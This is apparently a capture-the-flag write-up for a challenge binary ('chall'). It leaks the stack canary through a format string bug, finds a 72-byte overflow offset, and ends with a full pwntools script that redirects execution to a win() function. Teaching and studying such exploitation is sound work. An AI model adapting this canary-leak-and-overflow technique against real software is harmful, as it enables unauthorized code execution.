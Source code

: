 ## Vulnerability Summary
The binary provides two inputs:
1. **First input**: Vulnerable to a format string bug.
2. **Second input**: Vulnerable to a buffer overflow, but protected by a stack canary.

---

## Step 1: Leak the Canary
The format string vulnerability in the first input lets us leak values from the stack using `%p` format specifiers.

By sending:
```bash
%p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p
```
We can examine the memory addresses printed and locate the canary. In this case, the canary appears at the **15th** position.

So, we send:
```python
p.sendline(b'%15$p')
```

And parse the response:
```python
p.recvuntil(b"Big yellow bird replies: ")
canary = int(p.recvline().strip(), 16)
```

---

## Step 2: Determine the Overflow Offset
We use a binary search to determine where the canary check occurs. By sending increasing amounts of 'A's to the second input:

```bash
'A' * 72  --> No crash
'A' * 73  --> Stack smashing detected
```

Thus, the stack canary is located **after 72 bytes** of user-controlled data.

---

## Step 3: Construct Final Exploit
The overflow payload must:
- Write 72 bytes of filler ('A')
- Include the leaked canary to pass the stack protector
- Overwrite saved RBP with 8 bytes ('B')
- Overwrite RIP with the address of the `win()` function

```python
payload = b'A' * 72
payload += p64(canary)           # Correct canary
payload += b'B' * 8              # Overwrite RBP
payload += p64(elf.sym.win)     # Overwrite RIP
```

---

## Full Exploit Code
```python
from pwn import *

context.binary = './chall'
elf = context.binary

def exploit():
    p = process('./chall')

    # Stage 1: Leak Canary
    p.recvuntil(b"Big yellow bird lets you ask something: ")
    p.sendline(b'%15$p')
    p.recvuntil(b"Big yellow bird replies: ")
    canary = int(p.recvline().strip(), 16)
    log.success(f"Leaked canary: {hex(canary)}")

    # Stage 2: Buffer Overflow
    payload = b'A' * 72
    payload += p64(canary)
    payload += b'B' * 8
    payload += p64(elf.sym.win)

    p.recvuntil(b"Big yellow bird allows you to ask 1 more thing before IT ATTACKS: ")
    p.sendline(payload)
    p.interactive()

exploit()
```

---

